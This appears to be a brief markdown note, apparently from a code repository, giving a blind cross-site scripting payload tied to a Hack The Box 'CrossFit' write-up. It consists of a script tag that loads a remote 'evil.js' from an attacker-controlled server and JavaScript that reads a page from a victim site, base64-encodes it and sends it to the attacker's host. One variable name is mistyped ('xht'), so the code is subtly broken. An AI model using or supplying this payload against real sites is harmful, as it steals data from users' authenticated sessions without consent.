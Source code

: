## BXSS file

```<script src="http://yourServer:PORT/evil.js"></script>```



### Content of JS file

```
var xhr = new XMLHttpRequest();
xht.open('GET', 'http://Victim.com/path/file.php', true);
xhr.setRequestHeader('Content-type', 'application/x-www-urlencoded');

xhr.onload = function () {
	var request = new XMLHttpRequest();
	request.open('GET', 'http://YorServerHere:PORT/?code=' + btoa(xhr.responseText), true);
	request.send();
};

xhr.send();

```


reference: https://xakep.ru/2021/03/22/htb-crossfit-xss/
